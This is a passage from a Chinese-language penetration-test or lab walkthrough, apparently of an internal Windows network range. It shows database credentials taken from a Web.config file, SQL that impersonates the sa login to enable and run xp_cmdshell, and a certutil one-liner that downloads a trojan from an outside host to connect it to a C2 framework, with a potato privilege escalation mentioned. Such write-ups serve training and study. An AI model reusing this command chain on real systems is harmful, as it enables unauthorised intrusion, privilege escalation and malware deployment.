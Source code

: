 内部通讯录里面有用户名和邮箱, 猜测后面是要 AS-REP Roasting 或者 Kerberoasting

在 SafetyGuardSystem 的 Web.config 内翻到了 MSSQL 连接信息

```xml
<connectionStrings>
  <add name="SafetyModel" connectionString="data source=WIN-MSSQL;initial catalog=SafetyGuardDB;user id=safetyuser;password=sAf*tyI@8JkQ;MultipleActiveResultSets=True;App=EntityFramework" providerName="System.Data.SqlClient" />
  <add name="AdminModel" connectionString="data source=WIN-MSSQL;initial catalog=SafetyGuardDB;user id=safetyuser;password=sAf*tyI@8JkQ;multipleactiveresultsets=True;application name=EntityFramework" providerName="System.Data.SqlClient" />
</connectionStrings>
```

连过去发现 safetyuser 用户不是 DBA 权限, 无法直接执行 xp_cmdshell

参考文章: [https://xz.aliyun.com/t/11937](https://xz.aliyun.com/t/11937)

因为之前对 MSSQL 稍微有些了解, 所以脑洞了一下感觉可能有 Impersonate 的权限

查看当前用户是否可以模拟其它用户

```sql
SELECT DISTINCT b.name 
FROM sys.server_permissions a 
INNER JOIN sys.server_principals b 
ON a.grantor_principal_id = b.principal_id 
WHERE a.permission_name = 'IMPERSONATE';
```

![image-20231017171106581](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310171711687.png)

直接模拟 sa, 然后 xp_cmdshell 执行命令

```sql
EXECUTE AS LOGIN = 'sa';

EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

EXEC master..xp_cmdshell 'whoami';
```

certutil 下载木马上线 viper

```cmd
certutil -urlcache -split -f http://172.22.14.59/yy.exe C:\Users\Public\yy.exe
```

SweetPotato 提权

![image-20231017172649448](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202310171726557.png)

### 节点4 - WEB01 (公网)
